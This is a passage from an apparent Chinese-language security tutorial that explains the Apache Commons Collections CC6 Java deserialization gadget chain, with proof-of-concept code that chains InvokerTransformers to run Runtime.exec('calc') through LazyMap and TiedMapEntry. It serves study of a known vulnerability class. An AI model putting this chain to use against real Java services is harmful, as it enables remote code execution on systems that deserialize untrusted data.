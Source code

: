```java
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
    }
}
```

所以需要换一个地方触发 LazyMap#get 方法，这里使用的是 org.apache.commons.collections.keyvalue.TiedMapEntry ，

![1](/img/328.png)

后面的 hashCode 方法触发了：

![1](/img/329.png)

此时POC为：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        tiedmap.hashCode();
    }
}
```

所以需要找一个触发 TiedMapEntry#hashCode 的地方。这里使用的是 HashMap#hash 方法，

![1](/img/330.png)

而 HashMap#readObject 方法也调用到了 HashMap#hash 方法：
